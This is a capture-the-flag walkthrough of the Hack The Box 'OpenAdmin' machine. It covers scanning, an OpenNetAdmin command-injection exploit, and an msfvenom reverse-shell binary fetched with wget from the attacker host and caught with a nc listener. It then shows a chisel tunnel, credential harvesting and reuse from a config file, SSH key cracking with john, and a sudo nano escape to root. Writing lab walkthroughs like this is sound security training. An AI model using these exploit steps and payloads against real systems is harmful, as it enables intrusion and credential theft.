







# System Information




# System Enumeration

Nmap found the following open ports.


```sh
nmap -p22,80 -sV -sC -T4 -Pn -oA 10.10.10.171 10.10.10.171
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-10 16:41 EST
Nmap scan report for 10.10.10.171
Host is up (0.022s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## Port 80

Viewing http://10.10.10.171 showed the default apache page. 





I ran feroxbuster and nikto to enumerate the web server.

```sh
kali@kali-[~/boxes/htb/OpenAdmin]$feroxbuster -u http://10.10.10.171 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt --no-recursion  
  
 ___  ___  __   __     __      __         __   ___  
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__  
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___  
by Ben "epi" Risher 🤓                 ver: 2.3.3  
───────────────────────────┬──────────────────────  
 🎯  Target Url            │ http://10.10.10.171  
 🚀  Threads               │ 50  
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt  
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]  
 💥  Timeout (secs)        │ 7  
 🦡  User-Agent            │ feroxbuster/2.3.3  
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml  
 🚫  Do Not Recurse        │ true  
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest  
───────────────────────────┴──────────────────────  
 🏁  Press [ENTER] to use the Scan Cancel Menu™  
──────────────────────────────────────────────────  
301        9l       28w      312c http://10.10.10.171/music  
301        9l       28w      314c http://10.10.10.171/artwork  
403        9l       28w      277c http://10.10.10.171/server-status  
301        9l       28w      313c http://10.10.10.171/sierra  
[####################] - 32s    62281/62281   0s      found:4       errors:0        
[####################] - 32s    62281/62281   1936/s  http://10.10.10.171
```


```sh
kali@kali-[~/boxes/htb/OpenAdmin]$nikto -h http://10.10.10.171
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.171
+ Target Hostname:    10.10.10.171
+ Target Port:        80
+ Start Time:         2022-02-10 17:16:07 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 597dbd5dcea8b, mtime: gzip
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7863 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2022-02-10 17:19:46 (GMT-5) (219 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Looking at the /music/ directory, There is a login and create an account option at the top right. Create an account did nothing, but login forwarded me to an OpenNetAdmin application. 





Searchsploit found a few entries for opennetadmin, including an RCE for version 18.1.1 which happens to be installed here. I searched for POCs on github and found this [script](https://github.com/amriunix/ona-rce). Looking into the script, it looks like the main exploit is to send a specially crafted POST request to /ona/.

```python
def exploit(target, cmd):
    payload = {
        'xajax':'window_submit',
        'xajaxr':'1574117726710',
        'xajaxargs[]':['tooltips','ip=>;echo \"BEGIN\";{} 2>&1;echo \"END\"'.format(cmd),'ping']
    }
    try:
        req = requests.post(url = target, data = payload, verify = False)
    except:
        print("[-] Warning: Error while connecting o the remote target")
        exit(1)
    data = req.text
    result = data[data.find('BEGIN')+6:data.find('END')-1]
    return(result)
```


Verifying the target is vulnerable.

```sh
kali@kali-[~/boxes/htb/OpenAdmin]$python3 rce.py check http://10.10.10.171/ona/
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] The remote host is vulnerable!
```


I then used the exploit function of the script, which creates a "shell" via the python script. This just reruns the exploit function with whatever command is input.

```python
cmd = ''
while(True):
	cmd = input('sh$ ').lower()
	if (cmd == 'exit'):
		exit(0)
	print(exploit(target, cmd))
```

```sh
kali@kali-[~/boxes/htb/OpenAdmin]$python3 rce.py exploit http://10.10.10.171/ona/
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ uname -a
Linux openadmin 4.15.0-70-generic #79-Ubuntu SMP Tue Nov 12 10:36:11 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```


I created an elf file with msfvenom.

```sh
kali@kali-[~/boxes/htb/OpenAdmin]$msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.35 LPORT=443 -f elf -o test
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: test
```

I then uploaded the elf file, made it executable and ran it. This gave me a reverse shell on my listener.


```sh
sh$ wget http://10.10.14.35/test
--2022-02-10 23:24:27--  http://10.10.14.35/test
Connecting to 10.10.14.35:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 194 [application/octet-stream]
Saving to: 'test'

     0K                                                       100% 15.9M=0s

2022-02-10 23:24:27 (15.9 MB/s) - 'test' saved [194/194]

sh$ chmod +x test

sh$ ./test
```


```sh
kali@kali-[~/boxes/htb/OpenAdmin]$nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.10.171] 39968
whoami
www-data
```


# Shell as www-data


I checked for python3 to spawn a TTY shell.

```sh
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@openadmin:/opt/ona/www$ 
```


I did a bunch of enumeration here, I ended up running linpeas which didn't find anything directly useable. I ended up finding another directory in /var/www owned by jimmy.

```sh
www-data@openadmin:/var/www$ ls -al
ls -al
total 16
drwxr-xr-x  4 root     root     4096 Nov 22  2019 .
drwxr-xr-x 14 root     root     4096 Nov 21  2019 ..
drwxr-xr-x  6 www-data www-data 4096 Nov 22  2019 html
drwxrwx---  2 jimmy    internal 4096 Nov 23  2019 internal
lrwxrwxrwx  1 www-data www-data   12 Nov 21  2019 ona -> /opt/ona/www
```

I check the virutal hosts file to see what the subdomain was. I also noticed the web server is listening on 127.0.0.1:52846.

```sh
www-data@openadmin:/etc/apache2/sites-available$ ls -al
ls -al
total 24
drwxr-xr-x 2 root root 4096 Nov 23  2019 .
drwxr-xr-x 8 root root 4096 Nov 21  2019 ..
-rw-r--r-- 1 root root 6338 Jul 16  2019 default-ssl.conf
-rw-r--r-- 1 root root  303 Nov 23  2019 internal.conf
-rw-r--r-- 1 root root 1329 Nov 22  2019 openadmin.conf
www-data@openadmin:/etc/apache2/sites-available$ cat internal.conf
cat internal.conf
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

Knowing this was only accessible locally, I used chisel to port forward.

```sh
www-data@openadmin:/tmp$ wget http://10.10.14.35/chisel_1.7.6_linux_amd64 -O chisel
<tp://10.10.14.35/chisel_1.7.6_linux_amd64 -O chisel
--2022-02-10 23:55:54--  http://10.10.14.35/chisel_1.7.6_linux_amd64
Connecting to 10.10.14.35:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8339456 (8.0M) [application/octet-stream]
Saving to: 'chisel'

chisel              100%[===================>]   7.95M  3.68MB/s    in 2.2s    

2022-02-10 23:55:56 (3.68 MB/s) - 'chisel' saved [8339456/8339456]

www-data@openadmin:/tmp$ chmod +x chisel
chmod +x chisel
www-data@openadmin:/tmp$ ./chisel client 10.10.14.35:8001 R:8002:127.0.0.1:52846
<isel client 10.10.14.35:8001 R:8002:127.0.0.1:52846
2022/02/10 23:57:15 client: Connecting to ws://10.10.14.35:8001
2022/02/10 23:57:15 client: Connected (Latency 21.198388ms)
```


```sh
kali@kali-[~/tools/tunneling/chisel]$2022/02/10 18:56:35 server: Reverse tunnelling enabled
2022/02/10 18:56:35 server: Fingerprint Ay7gJFLE50uMbuAu9dT/IgfzqQFFLen7wu5qsl0wm+k=
2022/02/10 18:56:35 server: Listening on http://0.0.0.0:8001
2022/02/10 18:57:15 server: session#1: tun: proxy#R:8002=>52846: Listening
```

I now had access to the website, and it showed some login.




I tried some basic creds with no luck. I searched for other directories and files but nothing of interest. I ended up going back and looking for the SQL creds in /var/www/ona/ and a quick google search helped me find them at /opt/ona/www/local/config/database_settings.inc.php.


```sh
www-data@openadmin:/opt/ona/www/local/config$ cat database_settings.inc.php
cat database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```


```sh
www-data@openadmin:/opt/ona/www/local/config$ mysql -u ona_sys -pn1nj4W4rri0R!
</www/local/config$ mysql -u ona_sys -pn1nj4W4rri0R!
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 56
Server version: 5.7.28-0ubuntu0.18.04.4 (Ubuntu)

Copyright (c) 2000, 2019, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```


```sh
mysql> use ona_default
mysql> select * from users;
select * from users;
+----+----------+----------------------------------+-------+---------------------+---------------------+
| id | username | password                         | level | ctime               | atime               |
+----+----------+----------------------------------+-------+---------------------+---------------------+
|  1 | guest    | 098f6bcd4621d373cade4e832627b4f6 |     0 | 2022-02-11 00:28:05 | 2022-02-11 00:28:05 |
|  2 | admin    | 21232f297a57a5a743894a0e4a801fc3 |     0 | 2007-10-30 03:00:17 | 2007-12-02 22:10:26 |
+----+----------+----------------------------------+-------+---------------------+---------------------+
2 rows in set (0.00 sec)
```


I was hoping to find one of the other user's credentials here, but that was not the case. I searched for a while and eventually tried the password I found for SQL with jimmy and joanna. I was able to login as jimmy using this password.

```sh
www-data@openadmin:/home$ su jimmy
su jimmy
Password: n1nj4W4rri0R!

jimmy@openadmin:/home$ 
```


# Shell as Jimmy


Knowing that I now had access to /var/www/internal/ I went there and found 3 files, index.php contained a hardcoded hash along with the username jimmy. I shortened the output a bit.

```sh
jimmy@openadmin:/var/www/internal$ ls -al
ls -al
total 20
drwxrwx--- 2 jimmy internal 4096 Nov 23  2019 .
drwxr-xr-x 4 root  root     4096 Nov 22  2019 ..
-rwxrwxr-x 1 jimmy internal 3229 Nov 22  2019 index.php
-rwxrwxr-x 1 jimmy internal  185 Nov 23  2019 logout.php
-rwxrwxr-x 1 jimmy internal  339 Nov 23  2019 main.php
jimmy@openadmin:/var/www/internal$ cat index.php
cat index.php
<?php
   ob_start();
   session_start();
?>

................

   <body>

      <h2>Enter Username and Password</h2>
      <div class = "container form-signin">
        <h2 class="featurette-heading">Login Restricted.<span class="text-muted"></span></h2>
          <?php
            $msg = '';

            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
         ?>
      </div> <!-- /container -->

      <div class = "container">

         <form class = "form-signin" role = "form"
            action = "<?php echo htmlspecialchars($_SERVER['PHP_SELF']);
            ?>" method = "post">
            <h4 class = "form-signin-heading"><?php echo $msg; ?></h4>
            <input type = "text" class = "form-control"
               name = "username"
               required autofocus></br>
            <input type = "password" class = "form-control"
               name = "password" required>
            <button class = "btn btn-lg btn-primary btn-block" type = "submit"
               name = "login">Login</button>
         </form>

      </div>

   </body>
</html>

```





I then went back to the login page on the webserver I port forwarded to 7002 earlier.



After logging in, it appears to show a user's private SSH key.



I tried to SSH in using this private key, but was prompted for a pass phrase

```sh
kali@kali-[~/boxes/htb/OpenAdmin]$ssh root@10.10.10.171 -i id_rsa
Enter passphrase for key 'id_rsa': 
```


I used ssh2john to get a hash format I could pass to john the ripper.

```sh
kali@kali-[~/boxes/htb/OpenAdmin]$ssh2john.py id_rsa > john.hash
```

I then used john to crack the password.

```sh
kali@kali-[~/boxes/htb/OpenAdmin]$john --wordlist=/usr/share/wordlists/rockyou.txt john.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:02 DONE (2022-02-11 14:12) 0.4000g/s 5736Kp/s 5736Kc/s 5736KC/sa6_123..*7¡Vamos!
Session completed
```


Attempting to log in as root did not work, but I was able to SSH in as joanna.


```sh
kali@kali-[~/boxes/htb/OpenAdmin]$ssh joanna@10.10.10.171 -i id_rsa
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Feb 11 19:14:56 UTC 2022

  System load:  0.0               Processes:             199
  Usage of /:   31.8% of 7.81GB   Users logged in:       0
  Memory usage: 17%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.


Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15
joanna@openadmin:~$ 
```


# Shell as Joanna


Here I finally had access to user.txt in Joanna's home directory.

```sh
joanna@openadmin:~$ cat user.txt
85dba19514e819..................
```


Running sudo -l shows Joanna can run /bin/nano /opt/priv as sudo without a password. I saw this file earlier, and it was empty.

I ran the following commands, the first command spawned a nano session using sudo, from here I am able to spawn a shell with root privileges. This method can be found on [gtfobins](https://gtfobins.github.io/gtfobins/nano/).

```sh
sudo /bin/nano /opt/priv


^R^X
reset; sh 1>&0 2>&0
```


I used the same python3 trick to spawn a TTY shell.

```sh
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@openadmin:/home/joanna#
```

I now had access to root.txt.

```sh
root@openadmin:~# cat root.txt
7850323c2b54c7c3bf31b82b36037213
```